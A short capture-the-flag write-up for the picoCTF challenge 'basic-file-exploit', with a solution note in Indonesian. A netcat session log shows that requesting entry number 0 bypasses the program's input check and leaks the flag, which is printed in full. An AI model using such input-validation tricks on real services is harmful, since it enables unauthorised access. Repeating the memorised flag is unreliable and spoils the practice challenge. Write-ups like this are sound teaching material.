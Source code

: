 <h1>basic-file-exploit</h1>
<h3>Description</h3>
<p>The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
The program's source code with the flag redacted can be downloaded <a href='https://artifacts.picoctf.net/c/139/program-redacted.c'>here</a>.
Connect to the program with netcat:
$ nc saturn.picoctf.net 55973</p>
<h3>Solution</h3>
<p>saat di fungsi data_read(), input entry number 0 untuk strtol(entry, NULL, 10) bernilai True</p>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# nc saturn.picoctf.net 63883
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
1
1
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```
<h3>Flag</h3>
<pre>
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
</pre>

